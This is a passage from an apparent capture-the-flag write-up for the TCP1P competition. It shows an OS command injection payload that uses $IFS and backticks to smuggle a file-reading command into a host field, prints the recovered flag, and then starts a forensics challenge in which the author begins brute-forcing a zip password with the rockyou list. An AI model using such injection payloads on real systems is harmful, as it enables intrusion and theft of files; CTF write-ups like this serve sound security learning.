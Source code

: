 ![](oscommandflagtxt.png)
lets just cat it
```
localhost$IFS`cat$IFS/sup3rsecr3td1rectory/flag.txt`
```
![](oscommandflag.png)
Flag: `TCP1P{007150786cd8158d85d4d9445115857a82adc67310b8f78a011b9557dd540593}`

## Digital Forensic
### Audio Images
###### Author: Orch4th
###### Desc: Budi is a vocational school student and a famous hacker in his class and has the mindset that things that exist in the real world can actually also be created in the digital world. Therefore, Budi tried to make a digital dinosaur called Cracknosaurus in the hope that the digital dinosaur he made could rule the world like the ancient dinosaurs of ancient times. Cracknosaurus may look like an ordinary file, but you wouldn't know what Budi is hiding in this really extraordinary cracknosaurus image.
We got a zip file, but when i want to unzip it, it says `unsupported compression method 99` means its locked, and i try to brute force the password with rockyou
![](cracknosaurushash.png)